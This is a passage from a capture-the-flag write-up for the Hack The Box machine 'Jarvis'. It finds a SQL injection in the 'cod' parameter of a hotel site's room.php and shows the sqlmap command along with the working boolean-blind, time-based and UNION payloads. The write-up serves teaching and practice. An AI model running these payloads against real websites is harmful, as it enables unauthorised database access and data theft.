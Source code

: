 # Web

## On port 64999

The page on the web service on port 64999 is only saying that we have been
banned for 90 seconds.

    curl http://10.10.10.143:64999/
    Hey you have been banned for 90 seconds, don't be bad

## On port 80

The website is a "classical" hotel homepage.

![Jarvis homepage](/media/2019.10/jarvis_1.png)

We can checkout rooms. We notice that there is a `cod` GET parameter (in the
URL).
Moreover if we put a `-1` at the end of the URL we get to the previous room. For
instance the URL `http://10.10.10.143/room.php?cod=5-1` give us exactly the same
room as the `http://10.10.10.143/room.php?cod=4` URL. This is symptomatic of an
SQL injection.

![Jarvis room id 4](/media/2019.10/jarvis_2.png)

![Jarvis room id 5](/media/2019.10/jarvis_3.png)

![Jarvis room id 5-1](/media/2019.10/jarvis_4.png)

# Getting user

We launch `sqlmap` against the page, it confirm the SQL injection:

    sqlmap -u http://10.10.10.143/room.php?cod=5-1
    <SNIP>
    GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=5-1 AND 9103=9103

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: cod=5-1 AND (SELECT 1494 FROM (SELECT(SLEEP(5)))doUk)

        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-8368 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707871,0x727a50526445566e634476524a594655416e436156515a667a77797962676967515668766e6e626c,0x71707a7671),NULL-- AwXR
    ---
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: PHP, Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
